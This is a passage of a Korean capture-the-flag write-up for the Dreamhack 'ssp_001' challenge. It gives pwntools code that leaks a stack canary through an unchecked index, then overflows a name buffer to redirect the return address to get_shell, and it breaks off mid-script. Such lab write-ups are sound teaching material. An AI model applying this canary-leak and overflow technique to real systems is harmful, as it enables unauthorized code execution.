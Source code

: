```
p.recvuntil(b'is : ')
canary += p32(int(p.recvn(2), 16))[:1]  

p.sendline(b'P')
p.sendline(b'131')
p.recvuntil(b'is : ')
canary += p32(int(p.recvn(2), 16))[:1]  
```

**참고**

- 우리가 키보드를 통해 값을 입력할 때는 결국 string값을 전달하는 것이기 때문에 `scanf`에서 `%d`로 받아도 해당 string 값을 ASCII변환하는 것이 아닌 정수로 판단하여 저장한다. 따라서, idx에 정수를 입력할 때 `b'정수'` 형태로 바로 입력하면 된다.
- canary를 더할 때, `p32`로 해주면 `0x01`을 받았을 때, `b'\x01\x00\x00\x00'`으로 저장되므로 `[:1]`로 맨앞의 1자리만 받아와서 저장해야 한다. (byte stirng 배열은 \x00을 하나의 string으로 해석하기 때문)
    - 그게 싫으면 p8()로 받으면 1바이트(8bit)만 받기 때문에 [:1]를 쓸 필요가 없다. (다른 사람 풀이 보면서 알게 됨)

아래와 같이 반복문을 통해서도 가능 
- 참고로, `str(i).encode()`를 하면 정수 129가 `b'129'(바이너리 문자열)`로 변환되는데 `str(i)`는 `129(유니코드 문자열)`로 변환됨,  
여기서는 `b'129'`대신 `129`를 전송해도 string을 단독으로 전달하기 때문에 정상으로 같은 동작을 하지만, 대부분 바이너리 문자열로 전달을 기대하기 때문에 바이너리 문자로 encoding 후 전달하는 것이 좋음,  
그리고 `byte string`과 `string`은 `+`로 concat 불가능
 
```
canary = b'\x00'
for i in range(129, 132):
    p.sendline(b'P')
    p.sendline(str(i).encode())
    p.recvuntil(b'is : ')
    canary += p8(int(p.recv(2),16))
```
2. 이제 canary값을 읽어왔기 때문에 `E\n`을 통해 `name` 변수에 접근하여 return_address를 `get_shell` 함수의 주소로 덮으면 된다.   
**여기서 취약점이 발생하는 이유가, `name_len`이 `name`의 크기보다 더 클 수 있기 때문에 name의 범위를 넘어서까지 입력이 가능하기 때문이다.**     
`name`에서 `return_address`를 덮어쓰려면 `64+canary(4)+4+ebp(4)+return_address(4)`가 필요하므로 `name_len`은 80이 들어가면 된다.   
코드는 아래와 같고, `return_address`에 넣을 `get_shell()`함수의 주소는 `ELF`를 통해 얻어왔다.
```
p.sendline(b'E')
p.sendline(b'80')

payload = b'a'*64 + canary + b'a'*8 + p32(get_shell)
p.send(payload)

p.interactive()
```

3. 해당 코드를 종합하면 아래와 같다.
```
from pwn import *

context = "i386"
p = remote("host3.dreamhack.games", 19006)

elf = ELF("./ssp_001")
get_shell = elf.symbols['get_shell']

# get_shell = b'\xb9\x86\x04\x08'

canary = b'\x00'

p.sendline(b'P')
p.sendline(b'129')
p.recvuntil(b'is : ')
canary += p32(int(p.recv(2), 16))[:1]
# canary += p8(int(p.recv(2),16))

```